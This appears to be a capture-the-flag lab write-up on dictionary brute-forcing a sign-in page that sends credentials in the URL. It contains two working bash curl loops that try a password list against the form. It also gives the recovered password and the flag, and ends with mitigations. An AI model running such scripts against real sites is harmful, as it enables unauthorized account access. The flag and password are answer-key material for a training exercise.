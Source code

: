 # <span style="text-decoration: underline"> Brutforce </span>

- Tags : `brutforce` , `curl`, `guess`
- Server ip : `192.168.1.17 `
- Difficulty : <span style="color : orange">Medium</span>
___


# <span style="text-decoration: underline">problem</span>

Once common way of breaking into website is uisng brutforce. When we go to **signin** page and enter
|username|password|
|--|--|
|AAA|BBB|

and try to signin using those credentials, we are redirected to the folloing `URL` : **`http://192.168.1.17/?page=signin&username=AAA&password=BBB&Login=Login#`**

In the `URL` we can see the following parameters

|key|value|
|--|--|
|page|signin|
|username|AAA|
|password|BBB|
|Login|Login|

We can clearly see in the `URL` what we used as our `username` and `password`. This is clearly an old way of doing things because it expose the user credentials in plain text and on the `URL`



# <span style="text-decoration: underline">Solution</span>

To try a brutforce agains this `URL` all we need to do is change the value of `username` and `password`. It would take an infinit amount of timet ot try all the characters as **username** and **password** so a better way to do this would be using [`dictionary`](https://nordpass.com/blog/what-is-a-dictionary-attack/) based attack.

> A dictionary attack is a systematic method of guessing a password by trying many common words and their simple variations. Attackers use extensive lists of the most commonly used passwords, popular pet names, fictional characters, or literally just words from a dictionary – hence the name of the attack. They also change some letters to numbers or special characters, like “p@ssw0rd”.

It would still take way too long to guess both **username** and **password** so let's narrow down a bit our `username` wordlist. According to [this](https://lifehacker.com/the-top-10-usernames-and-passwords-hackers-try-to-get-i-1762638243) website the followings are the most commong `usernames`.

|username|count|percent|
|--|--|--|
| administrator| 77125 | 4.87%|
| Administrator| 53427| 24.15%|
| user1| 8575 | 3.88%|
| admin| 4935| 2.23%|
| alex| 4051| 1.83%|
| pos| 2321| 1.05%|
| demo| 1920| 0.87%|
| db2admin| 1654| 0.75%|
| Admin| 1378| 0.62%|
| sql| 1354| 0.61%|

We could also narrow down the **password** list like our **username** list (all though in realworld we should probably try a bigger list). Here is a list of website that propose a short list of commonly used password.

- https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords
- https://github.com/DavidWittman/wpxmlrpcbrute/blob/master/wordlists/1000-most-common-passwords.txt
- https://cybernews.com/best-password-managers/most-common-passwords/
- https://nordpass.com/most-common-passwords-list/
- https://github.com/iryndin/10K-Most-Popular-Passwords/blob/master/passwords.txt
- https://techcult.com/most-common-passwords/

I have noticed that [this](git) repository contains a short list (1k) passwords that we can find in the [wikipedia](https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords) page and this could be a good start.

All we have to do now is 

- Download the list of password
- Write some code to do the query using all the passwords
- And wait for the program to find the password

Here is a simple `shell` script to do the brutforce

?> We will use `admin` as username first because it is one of the most used username for admin account.


```bash
#!/bin/bash

username="admin" # The username we
host="192.168.1.17" # The ip address of the machine
dictionary="passwords.txt" # Path to the dictionary (password list)
i=1 # A simple iterator to know howmany password have we tried

while IFS= read -r password;
do
	echo -n "trying [$i]: $password"
	curl -s "http://$host/?page=signin&username=$username&password=$password&Login=Login#" | grep flag > /dev/null # You can also get the password directly in the terminal by removing the "> /dev/null"
	if [ $? -eq 0 ]
	then
		printf "\n\n"
		echo "Found the password : $password"
		exit
	fi
	((i=i+1))
	printf "\33[2K\r"
done < $dictionary
```

If you do not desire to download anything then you can use the following script

```bash
HOST='192.168.1.17'
USERNAME='admin'
DICTIONARY=($(curl -s "https://raw.githubusercontent.com/DavidWittman/wpxmlrpcbrute/master/wordlists/1000-most-common-passwords.txt"))

for i in ${!DICTIONARY[@]};
do
	echo -n  "trying [$i]: ${DICTIONARY[$i]}"
	curl -s "http://$HOST/?page=signin&username=$USERNAME&password=${DICTIONARY[$i]}&Login=Login#" | grep flag > /dev/null # You can also get the password directly in the terminal by removing the "> /dev/null"
	if [ $? -eq 0 ]
	then
		printf "\n\n"
		echo "Found the password : ${DICTIONARY[$i]}"
		exit
	fi
	printf "\33[2K\r"
done
```

!> If you try the script, do not forget to put the **right** `host` / `ip` address for `you`!

After executing our script, the script tells us that the password is `shadow`. so :

|username|password|
|--|--|
|admin|shadow|

# How to avoid the problem
This was once a common problem before where website exposed the user credentials directoly on the `URL` which itself is not encrypted. In moderndays we start

- Not sending credentials or importent information over [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) method and start using [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST).
- We use [`ssl`](https://developer.mozilla.org/en-US/docs/Glossary/SSL) encryption and [`https`](https://developer.mozilla.org/en-US/docs/Glossary/https) to send our data over internet so even if someone get hold of our data they will have hard time decrypting it.
- Set up a maximum request length so that if a someone tries to send to many requests, they get blocked.
- 2 factor authentication so that even if you have the correct credential you will still need a mobile device or a third element to log in.
- A server could also guess if the user begind the screen is the right user depending on the user IP, location, behaviour and many other things to protect better the user account.


# Flag

```text
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```